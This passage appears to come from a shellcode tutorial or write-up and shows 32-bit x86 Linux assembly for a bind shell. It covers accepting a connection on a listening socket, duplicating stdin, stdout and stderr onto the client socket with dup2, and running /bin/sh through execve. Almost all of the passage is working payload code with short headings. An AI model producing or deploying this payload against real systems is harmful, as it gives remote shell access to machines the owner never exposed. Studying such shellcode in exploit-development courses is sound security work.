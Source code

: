 ```s
    ; We pass NULL for addr and addrlen
    ; -----------------------
    push    0           ; addrlen = NULL
    push    0           ; addr = NULL
    push    esi         ; sockfd
    mov     ecx, esp
    mov     eax, 0x66
    mov     bl, 5       ; SYS_ACCEPT
    int     0x80
    ; eax = newclientfd
    mov     ebx, eax    ; ebx = client socket fd
```

**File Descriptor Duplication**

```s
	; Redirect STDIN(0), STDOUT(1), STDERR(2) to socket
    ; -----------------------
    ; dup2 loop: dup2(clientfd, 0); dup2(clientfd, 1); dup2(clientfd, 2);
    ; syscall: eax = 0x3f (dup2), ebx = oldfd (clientfd), ecx = newfd
    ; -----------------------
	
	xor ecx, ecx        ; Start with STDIN (0)

	; STDIN
	mov al, 0x3f        ; dup2 syscall = 63 (0x3f)
	int 0x80

	; STDOUT  
	inc ecx             ; ecx = 1
	mov al, 0x3f
	int 0x80

	; STDERR
	inc ecx             ; ecx = 2  
	mov al, 0x3f
	int 0x80
```


**Shell Execution**

```s
    ; -----------------------
    ; execve("/bin/sh", ["/bin/sh", NULL], NULL)
    ; -----------------------

	; Execute /bin/sh - execve("/bin/sh", NULL, NULL)
	xor eax, eax        ; Clear EAX

	; Push NULL terminator for string and arrays
	push eax

	; Push "/bin//sh" string (8 bytes for alignment)
	push 0x68732f2f     ; "hs//"
	push 0x6e69622f     ; "nib/"

	mov ebx, esp        ; EBX points to "/bin//sh" string

	; Prepare execve arguments
	push eax        ; NULL terminator
	mov edx, esp    ; envp
	push ebx        ; argv[0]
	mov ecx, esp    ; argv
	mov al, 0xb     ; execve syscall
	int 0x80
```
